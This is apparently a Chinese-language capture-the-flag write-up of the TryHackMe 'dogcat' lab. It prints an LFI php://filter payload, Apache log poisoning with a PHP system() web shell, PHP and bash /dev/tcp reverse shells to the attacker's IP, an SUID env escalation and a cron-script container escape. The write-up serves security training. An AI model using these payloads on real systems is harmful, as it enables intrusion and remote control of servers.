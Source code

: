 ```yaml
---
sidebar_position: 84
tags: [Easy, Linux, 文件包含, SUID]
title: dogcat
description: dogcat
sidebar_label: dogcat
slug: /tryhackme/84
---
```

# dogcat
## 端口扫描

```bash
root@ip-10-10-168-22:~/dogcat# nmap -sTCV -p 22,80 --min-rate 1000 10.10.68.174

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-11 09:14 BST
Nmap scan report for ip-10-10-68-174.eu-west-1.compute.internal (10.10.68.174)
Host is up (0.00013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:F9:D2:6A:B2:F9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
## 80
```bash
root@ip-10-10-168-22:~/dogcat# gobuster dir -u http://10.10.68.174/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.68.174/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/11 09:16:49 Starting gobuster
===============================================================
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/dogs (Status: 301)
/dog.php (Status: 200)
```

在访问时我发现 URL 存在一些不对

![20240703205118](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205118.png)

我感觉这里是一个文件包含漏洞, 所以我开始了测试, 当我测试的时候, 显示只允许 dog 和 cat , 说明后端需要校验这个内容, 最后构造的 payload 为:

```bash
http://10.10.162.26/?view=php://filter/convert.base64-encode/resource=dog/../index
```

因此读取到了 index.php 内容开始代码审计:

```php
<?php
      function containsStr($str, $substr) {
          return strpos($str, $substr) !== false;
      }
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
      if(isset($_GET['view'])) {
          if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
              echo 'Here you go!';
              include $_GET['view'] . $ext;
          } else {
              echo 'Sorry, only dogs or cats are allowed.';
          }
      }
  ?>
```

- 文件后缀是由 ext 参数确定的
- 明确要求存在 dog 和 cat

因此构造了第二步的 payload

```php
http://10.10.162.26/?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext
```

接着就需要考虑获取 Shell 了, 在这一步我想了很久才想起日志文件包含, 因为之前做过目录遍历所以需要重新开启机器, 发送如下内容

```php
GET /?view=dog/../../../../var/log/apache2/access.log&ext HTTP/1.1
Host: 10.10.162.26
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: <?php system($_GET['c']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close
```

然后就可以进行命令执行了

![20240703205134](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205134.png)

## 后渗透
### www-data
```php
php -r '$sock=fsockopen("10.10.168.22",4445);exec("/bin/bash <&3 >&3 2>&3");'
```

![20240703205153](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205153.png)

### www-data —> root(docker)

![20240703205209](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205209.png)

查找 SUID 文件我发现一个特殊的程序 [env#suid](https://gtfobins.github.io/gtfobins/env/#suid)

![20240703205232](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205232.png)

### root(docker) —> root(物理机器)
查找最近五分钟修改的文件我发现一个特殊的文件

![20240703205247](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205247.png)

```php
ls -al
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Sep 11 08:52 ..
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Sep 11 09:16 backup.tar
```

查看 `backup.sh` 的内容我意识到这可能是一个定时任务, 所以我便修改了这个文件并开启监听

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.168.22/4445 0>&1'
```

![20240703205310](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703205310.png)